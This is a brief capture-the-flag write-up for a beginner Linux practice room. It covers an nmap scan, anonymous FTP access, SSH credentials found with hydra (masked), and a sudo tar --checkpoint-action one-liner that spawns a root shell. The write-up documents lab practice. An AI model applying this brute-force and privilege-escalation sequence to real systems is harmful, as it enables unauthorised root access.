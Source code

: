 # Easy room to practice basic enumeration and privilege escalation in linux

## Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
## FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

## Found login and password to ssh using hydra

```
user: ***
password: *******************

```
## Found flag1: `THM{*****_*********}`

## Using sudo -l found that user can run tar as sudo 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
opens a shell as root and then found root flag under **/root/root.txt**

## Found flag2:`THM{******_******}`

